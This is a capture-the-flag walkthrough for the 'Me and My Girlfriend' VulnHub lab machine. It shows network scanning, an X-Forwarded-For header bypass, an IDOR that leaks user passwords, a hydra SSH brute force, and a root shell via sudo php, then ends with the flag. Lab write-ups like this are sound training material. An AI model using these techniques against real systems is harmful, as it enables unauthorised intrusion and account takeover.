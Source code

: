# Me and My Grilfriend

### 1.Get VM IP

```bash
root@kali: rp-scan -I eth1 -l
Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1	00:50:56:c0:00:01	VMware, Inc.
192.168.127.134	00:0c:29:cf:c6:1c	VMware, Inc.
192.168.127.254	00:50:56:f5:f5:14	VMware, Inc.
```

The ip address is `192.168.127.134`, let's enumerate it

### 2.Enumeration

```bash
root@kali: nmap -p- -sT -sV -sC -v -oN nmap.out 192.168.127.134
Nmap scan report for www.convert.me (192.168.127.134)
Host is up (0.0010s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:e1:56:58:46:04:33:56:3d:c3:4b:a7:93:ee:23:16 (DSA)
|   2048 3b:26:4d:e4:a0:3b:f8:75:d9:6e:15:55:82:8c:71:97 (RSA)
|   256 8f:48:97:9b:55:11:5b:f1:6c:1d:b3:4a:bc:36:bd:b0 (ECDSA)
|_  256 d0:c3:02:a1:c4:c2:a8:ac:3b:84:ae:8f:e5:79:66:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.7 (Ubuntu)
MAC Address: 00:0C:29:CF:C6:1C (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Visiting the web page it says :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/df7752cb-c77e-4b12-98bd-a3473bcb422d)

and the page source says :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/172e804f-93fe-4a5e-9658-7c3262a6ffb6)

config the browser to send traffic to burp and config burp to add new header to each request, `X-Forwarded-For: 127.0.0.1` :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/9740cf2b-7016-4a7b-adfd-5985aeeb3606)

after that you can see the actual page of the website:

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/c65f2b46-18d2-4350-ad30-fa1535fe4ca9)

i tried SQLi on register and login page but nothing happened, then i created a user and logged in to the site :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/df73b1e1-267b-42bf-bc35-1baa7ca64f7f)

after seeing the traffic in burp and navigating to profile menue i saw the request :

```text
http://192.168.127.134/index.php?page=profile&user_id=12
```

i change the `user_id` parameter to `1` and it showed another user profile :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/0fa3c04e-7b86-4e6c-9614-6bfa403881c8)


send the request to intruder and try number 1 to 50 for example, and also add `X-Forwarded-For: 127.0.0.1` header to the request

then you will see that multiple user and passwords are shown :

- users

```text
abdikasepak
alice
sedihaingmah
sundatea
aingmaung
eweuhtandingan
```

- passwords

```text
dorrrrr
4lic3
cedihhihihi
indONEsia
qwerty!!!
skuyatuh
```


### 3.Gaining Shell

Save these two lists and try to brute force the ssh service :


```bash
hydra -L users.txt   -P passwords.txt 192.168.127.134 ssh -v -t 10 
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/cc9f0f26-89ad-4653-b22c-4b3ec4a45d5b)


now login to system with `alice : 4lic3` :

```bash
root@kali: ssh alice@192.168.127.134                                                                                                               
alice@192.168.127.134's password: 
Last login: Sun Apr 28 16:50:29 2024 from 192.168.127.128
alice@gfriEND:~$ id
uid=1000(alice) gid=1001(alice) groups=1001(alice)
```

### 4.Privilege Escalation

Check sudo permissions on the system :

```bash
alice@gfriEND:~$ sudo -l
Matching Defaults entries for alice on gfriEND:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on gfriEND:
    (root) NOPASSWD: /usr/bin/php
```

we can run php on the system with root permissions, so try to use the command below :

```bash
alice@gfriEND:~$ sudo /usr/bin/php -r "system('/bin/bash');"
root@gfriEND:~# id
uid=0(root) gid=0(root) groups=0(root)

root@gfriEND:~# cd /root

root@gfriEND:/root# cat flag2.txt 

  ________        __    ___________.__             ___________.__                ._.
 /  _____/  _____/  |_  \__    ___/|  |__   ____   \_   _____/|  | _____     ____| |
/   \  ___ /  _ \   __\   |    |   |  |  \_/ __ \   |    __)  |  | \__  \   / ___\ |
\    \_\  (  <_> )  |     |    |   |   Y  \  ___/   |     \   |  |__/ __ \_/ /_/  >|
 \______  /\____/|__|     |____|   |___|  /\___  >  \___  /   |____(____  /\___  /__
        \/                              \/     \/       \/              \//_____/ \/

Yeaaahhhh!! You have successfully hacked this company server! I hope you who have just learned can get new knowledge from here :) I really hope you guys give me feedback for this challenge whether you like it or not because it can be a reference for me to be even better! I hope this can continue :)

Contact me if you want to contribute / give me feedback / share your writeup!
Twitter: @makegreatagain_
Instagram: @aldodimas73

Thanks! Flag 2: gfriEND{56fbeef560930e77ff984b644fde66e7}
```

This is how you can get root on the this machine :)

